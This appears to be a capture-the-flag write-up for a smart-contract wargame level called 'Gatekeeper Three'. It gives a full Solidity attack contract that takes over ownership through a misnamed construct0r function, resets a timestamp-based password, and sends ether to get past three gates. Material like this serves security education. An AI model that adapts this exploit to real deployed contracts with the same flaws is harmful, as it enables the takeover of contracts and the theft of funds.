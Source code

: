 To pass the gatekeeper we need to call `GatekeeperThreeSolution.enterGate(gatekeeperAddress)` with an ether amount greater than `0.001` `ether`.
<br>
For example, we can pass the following amount of `wei`:
```js
toWei("0.0010000001")
// '1000000100000000'
```

##

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface IGatekeeperThree {
    function construct0r() external;
    function createTrick() external;
    function getAllowance(uint256 _password) external;
    function enter() external;
}

contract GatekeeperThreeSolution {
    function enterGate(address payable _gatekeeper) external payable {
        require(msg.value > 0.001 ether, 'Need more ether to pass "gateThree"');
        IGatekeeperThree gk = IGatekeeperThree(_gatekeeper);
        // Overriding owner (required to pass "gateOne").
        gk.construct0r();
        // Required for "gateTwo".
        gk.createTrick();
        // Overriding password to equal "block.timestamp".
        gk.getAllowance(0);
        // Setting "allowEntrance" (required to pass "gateTwo").
        gk.getAllowance(block.timestamp);
        // Sending required amount of ether (required to pass "gateThree").
        (bool success,) = _gatekeeper.call{value: msg.value}("");
        require(success, "Failed to send ether. No point to continue - will not pass gateThree");

        gk.enter();
    }

    // Non payable (required to pass "gateThree").
    fallback() external {}
}
```
